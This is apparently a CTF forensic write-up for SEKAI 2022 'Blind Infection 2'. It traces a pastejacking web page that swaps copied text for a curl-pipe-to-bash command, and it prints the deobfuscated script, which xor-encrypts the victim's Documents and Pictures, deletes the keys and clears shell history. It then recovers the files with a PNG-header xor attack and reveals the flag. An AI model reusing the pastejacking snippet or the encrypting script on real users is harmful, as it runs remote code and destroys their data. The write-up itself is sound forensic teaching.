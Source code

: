 ```yaml
---
layout: post
title: "SEKAI 2022 - Blind Infection 2"
mathjax: true

date: 2022-10-01
---
```


*A ransomware encrypted PNG files, we retrieve the initial infection program, and use a xor attack to recover the flag.

<!--more-->

### Description

*Consider using a fresh virtual machine for this challenge, as you may risk losing your data. We are not responsible for any damages caused.*

Investigator: Good news - we’ve successfully managed to restore your documents! However, to continue with the rest of the files, we'll probably need to know: what were you doing when this initially happened?

Customer: ...

Attachment md5sum: 60937547d80207b1b4f2d4174a8d719a

Author: BattleMonger

### Details

Points:      488

Category:    forensic

Validations: 15

First blood: Yes

### Solution

After digging around the file and folder it stand out that the juicy stuf  resides inside the `/home/sekaictf/Pcitures` folder where 4 interesting PNG files are encrypted.

Inside the description, the investigator ask for an open question about when it happend.
Using the `tree -a` command, a folder called `snap/firefox` has been found inside the home user folder.
Inside this directory the profile of the customer can be found `common/.mozilla/firefox/p3zapakd.default`. To analyze quickly the firefox profile, the [firefed](https://github.com/numirias/firefed) tool has been used.

Using the `history` command again, we saw that the customer has made some research on how to decrypt file, is antivirus needed etc. So we can be sure that the infection occurs before those search.


```bash
> $ firefed -f -p home/sekaictf/snap/firefox/common/.mozilla/firefox/p3zapakd.default/ history
https://sekaictf-tunes.netlify.app/
    Title:      None
    Last visit: 2022-07-26 14:23:53
    Visits:     1
...
```
an url containing sekaict stoud out. Using curl to get what is inside the link lead to the discover of an interesting attack vector, using `clipboardData` function as shown below:

```html
<html><head><meta http-equiv="Content-Type" content="text/html; charset=UTF-8"></head><body>
		<!-- Source - https://security.love/Pastejacking/ -->
        Download exclusive Sekai Music!!!
        <br>

        <p>wget sekairhythms.com/epicmusic.zip</p>
        <script>
            document.addEventListener('copy', function(e){
                console.log(e);
                e.clipboardData.setData('text/plain', 'curl https://storage.googleapis.com/sekaictf/Forensics/muhahaha.sh | bash');
                e.preventDefault();
            });
        </script>
    


</body></html>
```

The malicious command download and run a bash script called [muhahaha.sh](/resources/2022/sekai/blind_infection_2/muhahaha.sh)

The shell script is obfuscated, to be able to decode it, we replaced the `eval` function with `echo` and the script became much more readable:

```bash
echo '---------------------------------------------------------'
echo 'All your files are gone, permanently!!!'
echo 'Bring them back, We dare you!!!'
echo '---------------------------------------------------------'
wget -q https://raw.githubusercontent.com/scangeo/xor-files/master/binaries/x86_64/xor-files
for file in ~/Documents/* ~/Pictures/*
do
openssl rand 16 > key.txt
xor-files -r $file $file key.txt
rm key.txt
done
rm xor-files
echo '' > ~/.bash_history
```
Basically what it does is that for each file in Documents and Pictures folder, it generate a random key of 16 bytes and xor the file with it, then it remove the temporary key.

As we know that PNG has a fixed header of always the same 16 bytes, it is trivial do decrypt the PNG's files with a bunch of python and the xor-files tool.

First get the xor key:

```python
import sys
key = bytes.fromhex("89 50 4E 47 0D 0A 1A 0A 00 00 00 0D 49 48 44 52".replace(" ",""))

with open(sys.argv[1],"rb") as src:
    buf = src.read(16)

good_key = bytearray()
for i,j in enumerate(buf):
    good_key.append((j ^ key[i]))

print(f"{good_key}")
print(len(good_key))

with open("key.good","wb") as dst:
    dst.write(good_key)
```

Then use this key to decrypt our file:

```bash
./xor-files -r flag.png flag.png key.good
```

The PNG is a big list of country flags, as we are on a forensic task, let's run `strings` on it just in case:

```bash
$ strings flag_back.png
...
F R3
f$]JSL
84#y
nl6F
IEND
SEKAI{D4R3_4CC3PT38_4N8_4U5T38}
```

Our flag is there: SEKAI{D4R3_4CC3PT38_4N8_4U5T38}

Challenges resources are available in the [resources folder](https://github.com/duksctf/duksctf.github.io/tree/master/resources/2022/sekai/blind_infection_2)

